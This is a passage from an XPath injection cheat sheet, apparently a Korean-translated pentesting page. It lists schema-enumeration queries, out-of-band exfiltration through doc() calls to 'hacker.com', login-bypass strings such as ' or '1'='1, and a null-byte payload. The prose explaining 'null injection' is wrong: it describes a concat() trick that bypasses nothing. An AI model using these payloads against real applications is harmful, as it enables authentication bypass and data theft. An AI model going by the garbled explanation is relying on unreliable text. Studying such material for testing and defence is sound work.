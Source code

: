 ```python
</f>
</c>
</root>

and name(/*[1]) = "root" #Confirm the name of the first tag is "root"
and substring(name(/*[1]/*[1]),1,1) = "a" #First char of name of tag `<a>` is "a"
and string-to-codepoints(substring(name(/*[1]/*[1]/*),1,1)) = 105 #Firts char of tag `<b>`is codepoint 105 ("i") (https://codepoints.net/)

#Stealing the schema via OOB
doc(concat("http://hacker.com/oob/", name(/*[1]/*[1]), name(/*[1]/*[1]/*[1])))
doc-available(concat("http://hacker.com/oob/", name(/*[1]/*[1]), name(/*[1]/*[1]/*[1])))
```
## 인증 우회

### **쿼리 예시:**
```
string(//user[name/text()='+VAR_USER+' and password/text()='+VAR_PASSWD+']/account/text())
$q = '/usuarios/usuario[cuenta="' . $_POST['user'] . '" and passwd="' . $_POST['passwd'] . '"]';
```
### **사용자 및 비밀번호에서 OR 우회 (두 값이 동일한 경우)**
```
' or '1'='1
" or "1"="1
' or ''='
" or ""="
string(//user[name/text()='' or '1'='1' and password/text()='' or '1'='1']/account/text())

Select account
Select the account using the username and use one of the previous values in the password field
```
### **null 주입 악용**

Null 주입은 XPath 쿼리에서 사용되는 특수한 기법입니다. 이 기법은 주입할 수 있는 문자열에 null 문자를 삽입하여 XPath 쿼리를 변조하는 것을 의미합니다. 이를 통해 악의적인 사용자는 원하는 결과를 얻거나 시스템에 대한 정보를 노출시킬 수 있습니다.

Null 주입은 주로 문자열 연결 연산자인 `concat()`을 이용하여 수행됩니다. 예를 들어, 다음과 같은 XPath 쿼리가 있다고 가정해 봅시다.

```plaintext
//user[@username='admin' and password='admin']
```

이 쿼리를 null 주입을 이용하여 변조하면 다음과 같이 될 수 있습니다.

```plaintext
//user[@username='admin' and password=concat('a', 'dmin')]
```

위의 예시에서는 `concat()` 함수를 사용하여 `admin` 문자열을 `a`와 `dmin`으로 분리하고 다시 연결하여 `admin`을 만들어냅니다. 이렇게 함으로써 `password` 필드에 대한 조건을 우회할 수 있습니다.

Null 주입은 XPath 쿼리에서 발생할 수 있는 취약점을 악용하는 기법 중 하나입니다. 따라서 웹 응용 프로그램의 보안 취약점을 확인하고 이를 방지하기 위해 적절한 대응책을 마련하는 것이 중요합니다.
```
Username: ' or 1]%00
```
### **사용자 이름 또는 비밀번호에서의 이중 OR** (취약한 필드가 하나만 있는 경우 유효함)
